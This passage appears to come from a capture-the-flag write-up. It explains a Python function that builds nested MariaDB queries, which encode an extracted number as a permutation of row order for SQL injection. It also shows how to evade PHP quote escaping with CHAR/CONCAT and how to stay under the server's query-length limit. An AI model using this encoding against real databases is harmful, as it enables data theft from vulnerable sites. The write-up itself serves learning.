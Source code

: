 When sending a request to the server, the table sizes are predetermined, so anything depending on that can be hardcoded into the SQL query. We will implement a Python function that generates an SQL query to reorder a table of size `n` such that it extracts a number represented by the expression `expr`. The conditions that represent the original row order will be given in the array `m`:

```python
def sqlencode(expr, n, m):
```

The initial state of the encoding can be set with the following subquery (curly braces are used for formatting the string):

```sql
SELECT {expr} as s{n}, JSON_ARRAY({','.join(str(i) for i in range(n))}) as r{n}, JSON_ARRAY(0) as o{n}, CONCAT(CHAR(36), CHAR(91), CHAR(65), CHAR(93)) as h) AS t{n}
```

`x` is represented by `s{n}`, `rows` is represented by `r{n}`, and `order` is represented by `o{n}`. The `JSON_ARRAY` is initialized with a single element because on my local version of MariaDB, it turned into an empty string otherwise. It is not required against the server. `h` is a helper string, `'$[A]'`, that allows for a `REPLACE` to be used instead of reconstructing the entire JSON identifier each time. Without this optimization, the query ends up being too long and the web server rejects it. `CONCAT` and `CHAR` are used since single and double quotes are escaped in the PHP before being put in the query.

Subqueries are then added to the outside for each iteration of the loop in the Python implementation. These are of the format:

```sql
SELECT h, JSON_ARRAY_APPEND(o{i+1}, CONVERT(CHAR(36) USING utf8mb4), JSON_EXTRACT(r{i+1}, REPLACE(h,CHAR(65), CONVERT(s{i+1} DIV {fac(i)},char)))) as o{i},  MOD(s{i+1}, {fac(i)}) as s{i}, JSON_REMOVE(r{i+1}, REPLACE(h, CHAR(65), CONVERT(s{i+1} DIV {fac(i)},char))) AS r{i} FROM {subquery}) AS t{i}
```

`h` is selected so it can be used in the next query as well. `JSON_ARRAY_APPEND` is used to add the element at index `floor(x/(i!))` of `rows` to `order`. `CHAR(36)` is just `$`, which signifies the entire JSON array. It needs to be converted to `utf8mb4` because `JSON_ARRAY_APPEND` rejects binary encoding. `x` is calculated as the previous `x` mod `i!`, and `rows` has the element at index `floor(x/(i!))` removed. `REPLACE` is used to replace the `A` in `$[A]` with the proper index.

Now that the output array is calculated, the rows need to be sorted correctly. A `CASE` statement is constructed based on the array of conditions, `m`, to order the rows, and a final query is constructed. The full function can be seen below:

```python
def sqlencode(expr, n, m):
  query = f"(SELECT {expr} as s{n},JSON_ARRAY({','.join(str(i)for i in range(n))}) as r{n},JSON_ARRAY(0) as o{n},CONCAT(CHAR(36),CHAR(91),CHAR(65),CHAR(93)) as h) AS t{n}"
  for i in range(n-1, -1, -1):
    query = f"(SELECT h,JSON_ARRAY_APPEND(o{i+1}, CONVERT(CHAR(36) USING utf8mb4), JSON_EXTRACT(r{i+1},REPLACE(h,CHAR(65),CONVERT(s{i+1} DIV {fac(i)},char)))) as o{i}, MOD(s{i+1}, {fac(i)}) as s{i}, JSON_REMOVE(r{i+1}, REPLACE(h,CHAR(65),CONVERT(s{i+1} DIV {fac(i)},char))) AS r{i} FROM " + query + f") AS t{i}"
  jsonquery = "JSON_EXTRACT(o0,CONCAT(CHAR(36),CHAR(91),CONVERT({index},char),CHAR(93)))"
  cases = "CASE"
  for i in range(len(m)):
    cases += f" WHEN {m[i]} THEN {jsonquery.format(index=i+1)}"
  cases += " ELSE NULL END"
  query = "(SELECT " + cases + " FROM " + query + ")"
  return query
```
